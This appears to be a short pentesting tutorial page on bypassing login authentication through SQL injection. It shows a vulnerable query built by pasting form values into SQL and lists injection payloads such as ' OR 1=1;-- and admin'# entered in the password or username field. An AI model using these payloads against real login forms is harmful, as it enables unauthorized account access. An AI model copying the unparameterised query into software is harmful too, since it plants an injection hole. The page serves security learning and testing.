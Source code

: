 # Authentication Bypass

This method consists of considering that the web application isn't interested in the content of the username and password, but in making a matching pair in the users' table.

* We assume the database uses a basic query for authentication

{% code overflow="wrap" lineNumbers="true" %}
```sql
SELECT * from users WHERE username='%user%' and password='%password%' LIMIT 1;
```
{% endcode %}

{% hint style="info" %}
_%user%_ and _%password%_ are the values received on a login form
{% endhint %}

***

* We can do a malicious insertion on the password field

{% code overflow="wrap" lineNumbers="true" %}
```sql
'--   #Use this comparison to cheat on verification
' OR 1=1;--   #Another alternative
'+OR+1=1-- #Another alternative
#This will skip the password verification and enumerate all the users
```
{% endcode %}

{% hint style="info" %}
Sometimes, an extra space after `;--` could make it work
{% endhint %}

***

* On PHP-based pages, we can replicate the same with a different payload

{% code overflow="wrap" lineNumbers="true" %}
```java
admin'#      //Insert this to skip the password verification
```
{% endcode %}
